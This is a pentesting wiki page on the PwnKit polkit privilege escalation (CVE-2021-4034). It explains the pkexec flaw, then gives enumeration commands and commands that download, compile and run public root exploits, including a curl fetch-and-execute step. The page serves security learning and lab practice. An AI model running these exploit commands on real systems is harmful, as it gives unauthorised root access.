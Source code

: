 ```yaml
---
description: CVE-2021-4034
---
```


# PwnKit

## Theory

CVE-2021-4034 (pwnkit) was discovered by researchers at [Qualys](https://www.qualys.com/). The vulnerability has existed in every version of the "Policy Toolkit" (or, Polkit) package **since it was first released in 2009** and allows any unprivileged attacker to easily obtain full administrative access over any Linux machine with the Polkit package installed. Polkit is installed by default on most distributions of Linux, making this vulnerability _extremely_ widespread.
The Pwnkit vulnerability exists in the pkexec utility. The pkexec command is used by authorized users to execute commands at elevated privileges (like using sudo). 

Pkexec attempts to parse any command-line arguments that we pass it using a for-loop, starting at the index 1 to offset the name of the program and obtain the first real argument. The name of the program is irrelevant to argument parsing, so the indexing is simply offset to ignore it. But if we don't provide any arguments, the index is permanently set to 1.
This becomes a problem later when pkexec attempts to write to the value of the argument at index n. As there are no command-line arguments, there is no argument at index n — instead the program overwrites the next thing in memory, which just so happens to be the first value in the list of environment variables when the program is called using a C function called execve(). In other words, by passing pkexec a null list of arguments, we can force it to overwrite an environment variable instead! - [TryHackMe](https://tryhackme.com/room/pwnkit)

## Practice

{% tabs %}
{% tab title="Enumeration" %}
To make the PwnKit exploit working. The SUID bit on the pkexec binary must be set
```
$ find / -type f -name *pkexec* -perm -4000 2>/dev/null
/usr/bin/pkexec
```

Check if the policykit package is vulnerable
```bash
#Debian/Ubuntu
apt list --installed | grep policykit-1


#RHEL/CentOs/Fedora
rpm -qa | grep -i polkit|grep -i '0.11[3-9]'
```
{% endtab %}

{% tab title="Exploit" %}
We can use [this exploit](https://github.com/ly4k/PwnKit) made by ly4k.
It should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.
```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit        # interactive shell
./PwnKit 'id'   # single command
```

You may want to compile the exploit by yourself with the following command
```bash
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Alternativly, we can use [this exploit](https://github.com/arthepsy/CVE-2021-4034) made by arthepsy
```
gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
./cve-2021-4034-poc
```
{% endtab %}
{% endtabs %}



## Ressource

{% embed url="https://ine.com/blog/exploiting-pwnkit-cve-20214034" %}

{% embed url="https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034" %}

{% embed url="https://tryhackme.com/room/pwnkit" %}
